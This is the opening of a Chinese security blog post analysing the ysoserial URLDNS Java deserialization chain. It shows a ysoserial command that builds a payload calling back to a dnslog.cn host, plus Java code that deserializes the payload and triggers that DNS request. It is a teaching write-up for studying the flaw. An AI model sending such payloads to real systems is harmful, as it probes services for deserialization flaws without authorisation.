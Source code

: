 ```yaml
---
title: URLDNS链分析
date: 2022-03-12 12:00:00
permalink: /sec/vuln/deserialization/urldns
author:
 name: NSPlankton
 link: https://blog.pwddd.com
titleTag: 原创 # v1.9.0+
categories:
  - 漏洞原理
  - 反序列化漏洞
tags:
  - 反序列化
  - URLDNS
  - ysoserial
---
```

# ysoserial - URLDNS链分析

ysoserial是一个非常好用的java反序列化的辅助工具，其中提供了大量了反序列化利用链，可以帮助我们生成对应的payload。

ysoserial下载地址：https://github.com/frohoff/ysoserial



## 利用复现

首先使用ysoserial生成URLDNS对应的反序列化数据。

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://t7xvva.dnslog.cn" > urldns.ser
```

然后模拟将生成的序列化文件反序列化读取。

```java
public static void main(String[] args) throws IOException, ClassNotFoundException {
  FileInputStream fis = new FileInputStream("urldns.ser");
  ObjectInputStream ois = new ObjectInputStream(fis);
  Object object = ois.readObject();
  System.out.println(object);
}
```

执行代码之后，就会发现我们的dnslog上会有一次dns的请求。该请求就是因为反序列化了URLDNS生成的序列化文件导致的。

![image-20220312224356298](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312224356298.png)

接下来我们分析一下请求DNS的原因。

## 利用链分析

### 生成序列化文件
